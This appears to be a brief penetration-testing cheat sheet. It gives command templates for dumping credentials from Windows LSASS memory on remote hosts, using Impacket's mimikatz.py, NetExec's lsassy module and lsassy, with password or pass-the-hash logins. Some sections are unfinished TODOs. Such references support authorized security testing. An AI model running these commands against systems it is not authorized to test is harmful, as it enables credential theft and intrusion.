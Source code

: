 # Unix Shell

## Impacket

```
$ mimikatz.py [<domain>/]<username>:<password>@<IP>

$ mimikatz.py [<domain>/]<username>@<IP> -hashes :<nt_hash>
```

## NetExec

TODO: Fill this info

```
$ netexec <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -M lsassy

$ netexec <IP> -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth] -M lsassy
```

## Lsassy

TODO: Fill this info

```
$ lsassy [-d <domain>] -u <username> -p <passwords> ip_targets.txt

$ lsassy [-d <domain>] -u <username> -H [<lm_hash>:]<nt_hash> ip_targets.txt
```

---
## References

- [Lsassy](https://github.com/Hackndo/lsassy)